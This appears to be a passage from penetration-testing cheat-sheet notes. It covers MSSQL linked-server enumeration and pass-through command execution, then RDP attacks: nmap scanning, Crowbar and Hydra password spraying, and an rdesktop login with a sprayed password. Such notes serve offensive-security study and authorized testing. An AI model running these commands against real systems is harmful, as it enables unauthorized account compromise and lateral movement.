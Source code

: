 #### Identify linked Servers in MSSQL
```cmd.exe
SELECT srvname, isremote FROM sysservers
GO
```
Note column `isremote`, where `1` means is a remote server, and `0` is a linked server

#### Using the EXECUTE statement can be used to send pass-through commands to linked servers
```cmd.exe
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```
We add our command between parenthesis and specify the linked server between square brackets ([ ]).

***Note: If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (`;`).*


## Attacking RDP

### Enumeration

#### Enumerating RDP with Nmap
```Shell
nmap -Pn -p3389 192.168.2.143
```

### Misconfigurations

#### Installing Crowbar
```Shell
apt --fix-broken install
```

```Shell
apt install -y crowbar
```

#### Using Crowbar to perform a password spraying attack
```Shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

#### Hydra - RDP Password Spraying
```Shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

#### Logging in with rdesktop
```Shell
rdesktop -u admin -p password123 192.168.2.143
```
